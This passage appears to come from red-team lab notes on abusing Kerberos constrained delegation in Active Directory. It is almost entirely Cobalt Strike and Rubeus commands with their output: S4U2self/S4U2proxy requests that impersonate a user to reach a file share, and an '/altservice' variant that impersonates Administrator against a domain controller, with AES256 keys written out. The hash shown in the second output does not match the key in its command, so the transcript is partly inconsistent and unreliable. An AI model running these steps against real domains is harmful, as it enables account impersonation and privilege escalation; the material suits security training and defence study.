 ``````beacon

[*] Using domain controller: dc-2.edu.evil.corp (10.10.17.71)
[*] Using aes256_cts_hmac_sha1 hash: 952891c9933c675cbbc2186f10e934ddd85ab3abc3f4d2fc2f7e74fcdd01239d
[*] Building AS-REQ (w/ preauth) for: 'edu.evil.corp\srv2$'
[+] TGT request successful!
[*] base64(ticket.kirbi):

 doIFLD [...snip...] MuSU8=

[*] Action: S4U

[*] Using domain controller: dc-2.edu.evil.corp (10.10.17.71)
[*] Building S4U2self request for: 'SRV2$@edu.evil.corp'
[+] Sequence number is: 1703507608
[*] Sending S4U2self request
[+] S4U2self success!
[*] Got a TGS for 'patrick' to 'SRV2$@edu.evil.corp'
[*] base64(ticket.kirbi):

 doIFfj [...snip...] JWLTIk

[*] Impersonating user 'patrick' to target SPN 'cifs/wkstn2.edu.evil.corp'
[*] Using domain controller: dc-2.edu.evil.corp (10.10.17.71)
[*] Building S4U2proxy request for service: 'cifs/wkstn2.edu.evil.corp'
[+] Sequence number is: 326551889
[*] Sending S4U2proxy request
[+] S4U2proxy success!
[*] base64(ticket.kirbi) for SPN 'cifs/wkstn2.edu.evil.corp':

 doIGwj [..snip...] ljLmlv

[+] Ticket successfully imported!

beacon> ls \\wkstn2.edu.evil.corp\c$
  
 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 dir     05/19/2022 14:35:19   $Recycle.Bin
 dir     05/10/2022 03:23:44   Boot
``````

## Alternate Service Name
This is an special case of [[Constrained Delegation]], were the service is not useful.
We can request a TGS for any service run by DC-2, using `/altservice` flag in Rubeus.
``````beacon
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe s4u /impersonateuser:Administrator /msdsspn:eventlog/dc-2.edu.evil.corp /altservice:cifs /user:srv2$ /aes256:babf31e0d787aac5c9cc0ef38c51bab5a2d2ece608181fb5f1d492ea55f61f05 /opsec /ptt

[*] Action: S4U

[*] Using domain controller: dc-2.edu.evil.corp (10.10.17.71)
[*] Using aes256-cts-hmac-sha1 hash: 952891c9933c675cbbc2186f10e934ddd85ab3abc3f4d2fc2f7e74fcdd01239d
[*] Building AS-REQ (w/ preauth) for: 'edu.evil.corp\srv2$'
[+] TGT request successful!
[*] base64(ticket.kirbi):

 doIFLD [...snip...] MuSU8=

[*] Action: S4U
``````